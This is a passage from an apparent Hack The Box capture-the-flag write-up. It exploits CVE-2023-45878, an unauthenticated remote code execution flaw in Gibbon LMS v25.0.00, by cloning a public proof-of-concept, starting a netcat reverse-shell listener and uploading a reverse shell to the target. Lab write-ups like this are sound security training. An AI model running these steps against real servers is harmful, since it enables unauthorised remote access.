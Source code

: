 Clicking on the `Staff Login`, opens the login portal for Students and Staff.  At the bottom of the page it shows that this is using the Gibbon v25.0.00 LMS.

![](images/Pasted%20image%2020250721151406.png)

### 🧪 Exploitation

#### 🐞 CVE-2023-45878

Gibbon v25.0.00 is vulnerable to unauthenticated RCE as seen in CVE-2023-45878 (https://nvd.nist.gov/vuln/detail/CVE-2023-45878 and https://pentest-tools.com/vulnerabilities-exploits/gibbon-lms-v25001-file-upload-to-rce_27078).

I decided to use 0xyy66's PoC, which can be found at https://github.com/0xyy66/CVE-2023-45878_to_RCE.  The repo was cloned.

```
fcoomans@kali:~/htb/thefrizz$ git clone https://github.com/0xyy66/CVE-2023-45878_to_RCE.git
Cloning into 'CVE-2023-45878_to_RCE'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 9 (delta 1), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (9/9), 4.07 KiB | 2.04 MiB/s, done.
Resolving deltas: 100% (1/1), done.
```

And a `nc` listener was started on the attack host.

```
fcoomans@kali:~/htb/thefrizz$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
```

The PoC was then launched.  A reverse shell is uploaded to the target and I am prompted to press ENTER to trigger the reverse shell.  I press ENTER, as the `nc` listener was already running.
